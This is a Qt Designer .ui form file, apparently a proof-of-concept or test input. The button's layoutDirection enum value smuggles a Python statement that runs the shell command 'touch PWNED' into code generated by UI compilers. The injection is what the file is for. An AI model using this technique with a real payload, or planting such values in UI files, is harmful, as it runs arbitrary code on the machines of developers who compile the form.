
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>Form</class>
 <widget class="QWidget" name="Form">
  <layout class="QVBoxLayout" name="lay">
   <item>
    <widget class="QPushButton" name="btn">
     <property name="layoutDirection"><enum>Qt::RightToLeft); __import__("os").system("touch PWNED"); (Qt::RightToLeft</enum></property>
    </widget>
   </item>
   <item>
    <widget class="QLabel" name="lab"/>
   </item>
  </layout>
 </widget>
 <resources/>
 <connections/>
</ui>
